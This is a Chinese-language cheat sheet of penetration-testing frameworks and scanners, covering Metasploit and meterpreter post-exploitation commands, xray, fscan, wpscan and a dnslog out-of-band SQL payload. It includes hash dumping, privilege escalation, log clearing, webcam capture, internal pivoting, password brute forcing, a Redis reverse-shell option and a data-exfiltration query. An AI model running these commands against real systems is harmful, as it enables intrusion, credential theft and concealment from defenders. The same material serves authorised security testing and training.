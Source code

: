 综合框架
----------------------------------------

漏洞检测
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ metasploit
	- Terminal下msf常用命令简介
		+ 打开msf终端：``msfconsole``
		+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
		+ 设置全局变量
			::
			
				set proxies socks5:127.0.0.1:7222
				set ReverseAllowProxy true
	- msf终端下常用命令简介
		+ 显示命令的帮助信息：``help [db_connect]``
		+ 搜索含有关键字的模块：``search [module]``
		+ 选择模块：``use [module]``
		+ 显示模块支持的payload：``show payload``
		+ 显示模块参数：``show options``
		+ info详情：``info``
		+ 设置取消参数：``set/unset [opt]``
		+ 设置取消全局参数：``setg/unsetg [opt]``
		+ 返回上级状态：``back``
		+ 运行攻击模块：``exploit/run``
		+ 查看当前连接会话：``sessions``
	- meterpreter后渗透利用
		+ 打印当前工作目录：``pwd``
		+ 查看系统信息：``sysinfo``
		+ 查看当前目标机上运行的进程列表和pid：``ps``
		+ 调用相机拍摄照片：``webcam_snap``
		+ 运行vnc远程查看屏幕：``run vnc``
		+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
		+ 截取目标主机当前屏幕​：``screenshot``
		+ 获取当前权限的用户id：``getuid``
		+ 获取system权限：``getsystem``
		+ 获取用户名与hash口令：``hashdump``
		+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
		+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
		+ 上传一个文件：``upload``
		+ 下载一个文件：``download``
		+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
		+ 清除日志：``clearev``
		+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
	- meterpreter内网渗透
		+ 获取目标主机上的子网状态：``run get_local_subnets``
		+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
		+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
		+ 查看当前的路由表：``run autoroute -p``
		+ 扫描内网存活主机：``db_nmap``
		+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
		+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

+ vulmap【web】
	- 项目地址：``https://github.com/zhzyker/vulmap``
	- 安装
			::
			
				git clone https://github.com/zhzyker/vulmap.git
				pip3 install -r requirements.txt
				
	- 基本用法：``python3 vulmap.py -u http://example.com``

+ xray【web】
	- 全局配置
		+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
		+ --log_level 用于指定全局的日志配置
		+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
	- reverse命令
		+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
	- genca
		+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
	- subdomain
		+ 子域名扫描
		+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
		+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
	- webscan
		+ 扫描web漏洞，核心功能
		+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
			- ``--plugins xss --plugins xss,sqldet,phantasm``
		+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
			- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
			- ``--plugins phantasm --poc "*thinkphp*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
		+ 配置输入来源
			- --listen 
				+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
			- --basic-crawler 
				+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
			- --url 
				+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
			- --raw-request 
				+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
		+ 输出方式
			- --html-output 将结果输出为 html 报告, 报告样例
			- --webhook-output 将结果发送到一个地址
			- --json-output 将结果输出到一个 json 文件中
		+ 示例
			- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
			- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

综合
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ARL 资产侦察灯塔系统
	::

		git clone https://github.com/TophantTechnology/ARL
		cd ARL/docker/
		docker volume create arl_db
		docker-compose pull
		docker-compose up -d 
		
		默认端口5003 (https), 默认用户名密码admin/arlpass

+ ShuiZe_0x727
	- 项目：``https://github.com/0x727/ShuiZe_0x727``
	- 协助红队人员快速的信息收集，测绘目标资产，寻找薄弱点。
	- 全方位收集相关资产，并检测漏洞。也可以输入多个域名、C段IP等。
+ LiqunKit
	- 项目：``https://github.com/Liqunkit/LiqunKit_``
	- 漏洞辅助工具箱，包含致远OA，泛微OA，万户OA，蓝凌OA，用友OA，通达OA，weblogic，struts2，thinkphp，shiro，数据库综合。
+ 带带弟弟
	- 项目：``https://github.com/SleepingBag945/dddd``
	- 示例：
		::
		
			# 指定IP禁Ping全端口扫描指定端口
			./dddd -t 172.16.100.1 -p 80,53,1433-5000 -Pn
			先配置./config/subfinder-config.yaml中的FOFA 邮箱和KEY。
				fofa: ["xxxx@qq.com:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]
			./dddd -t "domain=\"baidu.com\"" -fofa (从fofa取100个baidu.com域名的目标)
			./dddd -t "domain=\"baidu.com\"" -fofa -ffmc 10000 (指定最大数量为10000 默认100)
+ fscan
	- 项目地址：``https://github.com/shadow1ng/fscan``
	- 示例
		::
		
			fscan.exe -h 192.168.1.1/24  (默认使用全部模块)  
			fscan.exe -h 192.168.1.1/16  (B段扫描)
			fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
			fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
			fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
			fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
			fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
			fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
			fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
			fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
			fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
			fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
			fscan64.exe -h 10.10.180.0-10.10.180.255 -p 445 -sc ms17|findstr "MS17-010"（指定模块）
			fscan.exe -hf ip.txt  (以文件导入)
+ Template 
	+ 项目地址：https://github.com/1n7erface/Template
+ uniscan
+ goon
	- 项目地址：``https://github.com/i11us0ry/goon``
	- goon,集合了fscan和kscan等优秀工具功能的扫描爆破工具。
	- 功能包含：ip探活、port扫描、web指纹扫描、title扫描、fofa获取、ms17010、mssql、mysql、postgres、redis、ssh、smb、rdp、telnet等爆破以及如netbios探测等功能。
+ Railgun
	- 项目地址：``https://github.com/lz520520/railgun``
	- Railgun为一款GUI界面的渗透工具，将部分人工经验转换为自动化，集成了渗透过程中常用到的一些功能，目前集成了端口扫描、端口爆破、web指纹扫描、漏洞扫描、漏洞利用以及编码转换功能，后续会持续更新。
+ SweetBabyScan
	- 项目地址：``https://github.com/inbug-team/SweetBabyScan``
	- 轻量级内网资产探测漏洞扫描工具，支持弱口令爆破的内网资产探测漏洞扫描工具，集成了Xray与Nuclei的Poc
+ Ladon
	- 项目地址：``https://github.com/k8gege/Ladon``

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描
+ thinkphp
	- https://github.com/Lucifer1993/TPscan
	- https://github.com/theLSA/tp5-getshell


带外数据监控
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ dnslog
	- 利用场景
		+ Sql-Blind
		+ RCE
		+ SSRF
		+ RFI（Remote File Inclusion）
	- 原理
		将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
	- 限制
		load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
	- 示例
		+ ``select load_file('\\\\',version(),'.dnslog地址')``
+ ceye.io
	- http://ceye.io/profile中记录了个人的Identifier
	- 可以请求任何http文件
	- dns请求记录

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
